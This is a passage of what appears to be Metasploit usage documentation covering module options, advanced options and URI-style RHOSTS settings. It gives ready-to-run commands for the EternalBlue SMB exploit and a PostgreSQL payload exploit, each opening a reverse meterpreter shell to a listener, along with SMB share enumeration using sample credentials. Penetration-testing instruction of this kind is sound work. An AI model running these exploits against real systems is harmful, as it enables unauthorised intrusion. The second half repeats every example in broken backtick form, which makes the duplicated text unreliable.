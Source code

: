 ## Module options
Each Metasploit module has a set of options which must be set before running. These can be seen with the `show options` or `options` command:
```msf
msf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   ... etc ...


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.239    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```

Each Metasploit module also has _advanced_ options, which can often be useful for fine-tuning modules, in particular setting connection timeouts values can be useful:
```msf
msf6 exploit(windows/smb/ms17_010_eternalblue) > advanced

Module advanced options (exploit/windows/smb/ms17_010_eternalblue):

   Name                    Current Setting                     Required  Description
   ----                    ---------------                     --------  -----------
   CHOST                                                       no        The local client address
   CPORT                                                       no        The local client port
   CheckModule             auxiliary/scanner/smb/smb_ms17_010  yes       Module to check with
   ConnectTimeout          10                                  yes       Maximum number of seconds to establish a TCP connection
   ... etc ...

Payload advanced options (windows/x64/meterpreter/reverse_tcp):

   Name                         Current Setting  Required  Description
   ----                         ---------------  --------  -----------
   AutoLoadStdapi               true             yes       Automatically load the Stdapi extension
   AutoRunScript                                 no        A script to run automatically on session creation.
   AutoSystemInfo               true             yes       Automatically capture system information on
   ... etc ...
```

You can see which options stilloptions to be set with the `show missing` command:
```msf
msf6 exploit(windows/smb/ms17_010_eternalblue) > show missing

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
```

### Setting options
Traditional usage of Metasploit involves loading a module, and setting multiple options individually:
```
use exploit/linux/postgres/postgres_payload
set username administrator
set password pass
set rhost 192.168.123.6
set rport 5432
set database postgres
set lhost 192.168.123.1
set lport 5000
run
```

You can also specify multiple RHOSTS separated by spaces or with a CIDR subnet mask:
```
use exploit/linux/postgres/postgres_payload
run postgres://postgres:password@192.168.123.6 lhost=192.168.123.1 lport=5000 payload=linux/x64/meterpreter/reverse_tcp target='Linux\ x86_64' verbose=true
```

Example:
```
use exploit/linux/postgres/postgres_payload
run postgres://administrator:pass@192.168.123.6 lhost=192.168.123.1 lport=5000
```

You can set complex options using quotes. Example:
```
use auxiliary/admin/postgres/postgres_sql
run 'postgres://user:this is my password@192.168.1.123/database_name' sql='select version()'
```

### URI support for RHOSTS
which allows setting multiple options at once - i.e. username, password, rport, rhost, etc.
```
use scanner/smb/smb_enumshares
run smb://test:test@192.168.1.223 smb://user:password@192.168.1.223 smb://test:test@127.0.0.1 verbose=true
```

`msf
msf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   ... etc ...


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.239    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
`

`msf
msf6 exploit(windows/smb/ms17_010_eternalblue) > advanced

Module advanced options (exploit/windows/smb/ms17_010_eternalblue):

   Name                    Current Setting                     Required  Description
   ----                    ---------------                     --------  -----------
   CHOST                                                       no        The local client address
   CPORT                                                       no        The local client port
   CheckModule             auxiliary/scanner/smb/smb_ms17_010  yes       Module to check with
   ConnectTimeout          10                                  yes       Maximum number of seconds to establish a TCP connection
   ... etc ...

Payload advanced options (windows/x64/meterpreter/reverse_tcp):

   Name                         Current Setting  Required  Description
   ----                         ---------------  --------  -----------
   AutoLoadStdapi               true             yes       Automatically load the Stdapi extension
   AutoRunScript                                 no        A script to run automatically on session creation.
   AutoSystemInfo               true             yes       Automatically capture system information on
   ... etc ...
`

`msf
msf6 exploit(windows/smb/ms17_010_eternalblue) > show missing

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
`

`
use exploit/linux/postgres/postgres_payload
set username administrator
set password pass
set rhost 192.168.123.6
set rport 5432
set database postgres
set lhost 192.168.123.1
set lport 5000
run
`

`
use exploit/linux/postgres/postgres_payload
run postgres://postgres:password@192.168.123.6 lhost=192.168.123.1 lport=5000 payload=linux/x64/meterpreter/reverse_tcp target='Linux\ x86_64' verbose=true
`

`
use exploit/linux/postgres/postgres_payload
run postgres://administrator:pass@192.168.123.6 lhost=192.168.123.1 lport=5000
`

`
use auxiliary/admin/postgres/postgres_sql
run 'postgres://user:this is my password@192.168.1.123/database_name' sql='select version()'
`

`
use scanner/smb/smb_enumshares
run smb://test:test@192.168.1.223 smb://user:password@192.168.1.223 smb://test:test@127.0.0.1 verbose=true
`

